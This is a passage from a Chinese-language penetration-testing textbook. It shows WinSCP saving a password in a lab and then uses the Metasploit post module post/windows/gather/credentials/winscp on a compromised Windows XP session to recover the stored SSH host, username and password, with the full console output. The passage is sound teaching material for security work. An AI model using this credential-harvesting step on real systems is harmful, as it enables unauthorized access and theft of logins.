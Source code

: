 ### 注意

与本书中使用的一些其他工具一样，WinSCP 的 GUI 可能会在未来更新，因此你所使用的版本可能与此略有不同。

系统会提示输入会话名称，如图 13-2 所示。在点击**确定**之前，请勾选**保存密码**框。即使是 WinSCP 也警告你保存密码是一个不好的主意。

![在 WinSCP 中保存凭证](img/httpatomoreillycomsourcenostarchimages2030422.png.jpg)图 13-2. 在 WinSCP 中保存凭证

现在切换回 Kali Linux，使用模块 *post/windows/gather/credentials/winscp*，如示例 13-19 所示。由于这是一个后置模块，你唯一需要提供的选项是 Windows XP 会话的 ID。

示例 13-19. 从 WinSCP 中窃取保存的凭证

```
msf > **use post/windows/gather/credentials/winscp**
msf  post(winscp) > **show options**

Module options (post/windows/gather/credentials/winscp):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf  post(winscp) > **set session 1**
session => 1
msf  post(winscp) > **exploit**
[*] Looking for WinSCP.ini file storage...
[*] WinSCP.ini file NOT found...
[*] Looking for Registry Storage...
[*] Host: 192.168.20.9  Port: 22 Protocol: SSH  Username: georgia  Password: password ❶
[*] Done!
[*] Post module execution completed
```
